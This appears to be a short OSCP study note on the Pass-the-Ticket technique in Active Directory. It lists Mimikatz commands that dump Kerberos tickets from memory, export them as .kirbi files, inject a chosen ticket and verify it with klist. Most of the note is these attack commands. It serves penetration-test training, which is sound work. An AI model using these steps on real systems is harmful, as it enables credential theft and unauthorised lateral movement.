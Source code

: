 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/5-pass-the-ticket/"}
---
```


----------
- Dumped tickets from memory may be exported and used anywhere
- Also, if the tickets belong to the current user no administrative privileges are needed

### Pass-the-Ticket using Mimikatz:
1. Start Mimikatz and enable debug.
2. Dump all Kerberos tickets from memory (including logged in users):
```
sekurlsa::tickets /export
```
3. List all dumped tickets:
```
dir *.kirbi
```
5. Inject any selected ticket:
```
kerberos::ptt ticket.kirbi
```
6. Examine ticket:
```
klist
```

